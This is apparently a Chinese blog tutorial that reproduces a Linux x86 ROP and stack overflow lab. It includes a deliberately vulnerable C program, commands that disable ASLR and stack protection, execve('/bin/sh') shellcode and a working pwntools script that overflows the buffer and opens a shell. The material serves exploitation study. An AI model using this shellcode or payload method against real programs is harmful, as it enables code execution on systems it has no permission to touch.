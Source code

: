 #一步一步学习ROP Linux_x86
这篇文章是在复现蒸米写的教程之后 对里面动手的部分进行纠正，详细解释请看蒸米的原文。

##0x01 Control Flow Hijack 程序流劫持

首先来看一下这个有缓冲区溢出的程序：

	#!c
	#include <stdio.h>
	#include <stdlib.h>
	#include <unistd.h>

	void vulnerable_function() {
    	char buf[128];
    	read(STDIN_FILENO, buf, 256);
	}

	int main(int argc, char** argv) {
    	vulnerable_function();
    	write(STDOUT_FILENO, "Hello, World\n", 13);
	}
	
用这个命令编译程序：

	gcc -fno-stack-protector -z execstack -o level1 level1.c
	
关闭ASLR
	
	sudo -s 
	echo 0 > /proc/sys/kernel/randomize_va_space
	exit

以上关闭系统的保护机制。

###第一步
计算出我们需要覆盖多少个字节，才能覆盖到返回地址（过程略）。

同时也能知道地址出错的位置。

计算结果为140个字节。

通过以上结论，我们可以计算出 buf的起始地址，也就是一会儿我们要将shellcode的放置的起始地址。

###第二步
接下来，我们需要一段shellcode（关于shellcode的生成的方法，可以参考长亭系统安全的ppt第三节）。

	#!c
	# execve ("/bin/sh") 
	# xor ecx, ecx
	# mul ecx
	# push ecx
	# push 0x68732f2f   ;; hs//
	# push 0x6e69622f   ;; nib/
	# mov ebx, esp
	# mov al, 11
	# int 0x80

	shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
	shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
	shellcode += "\x0b\xcd\x80

这里我们使用一段最简单的执行`execve ("/bin/sh")`命令的语句作为shellcode。

###第三步
<mark>这里也是蒸米 原文无法复现的一个地方。

蒸米的原文是这样写的：

开启core dump:

```
#!bash
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```
开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。

```
#!bash
$./level1 
ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

$ gdb level1 /tmp/core.1433844471 
Core was generated by `./level1'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()

(gdb) x/10s $esp-144
0xbffff290:  "ABCD", 'A' <repeats 153 times>, "\n\374\267`\204\004\b"
0xbffff335:  ""
```

因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为$esp-144。通过gdb的命令 “x/10s $esp-144”，我们可以得到buf的地址为<mark>0xbffff290

<mark>实际上并不是这样的，我们来在自己的电脑上操作一下

![core dump](1.png)

由上图可知，buf的起始地址是 `0xbffff640` <mark>实际上并不是的，请看第四步

###第四步


最终我们得到本地测试代码如下：

```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./rop') 
ret = 0xbffff640

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

# p32(ret) == struct.pack("<I",ret) 
#对ret进行编码，将地址转换成内存中的二进制存储形式
payload = shellcode + 'A' * (140 - len(shellcode)) + p32(ret)

p.send(payload) #发送payload

p.interactive()  #开启交互shell
```
执行：
![](2.png)

eeeeee,竟然成功了！！！！呃呃呃呃，但是还是想说一下调试。


###调试脚本
**我们来进行调试，也是本文最最重要的部分，如何调试你的脚本**

**首先**
在发送payload之前添加一个`raw_input()` 

![](3.png)

执行脚本
![](4.png)

我们在右上角运行sc.py 取得进程号，在左边的窗口打开gdb，然后 `attach 进程号` 

此时，rop就停住了（因为没有给他发送输入）

然后我们在右上输入一个字符，让程序继续

这样在左边 再按c让程序继续
![](5.png)


##结束语
今天是2018年5月9日 今天晚上园神收到了来自360某实验室的实习offer 非常为她感到高兴。这也给我在漫长的菜鸟阶段一点希望，我会继续努力下去的。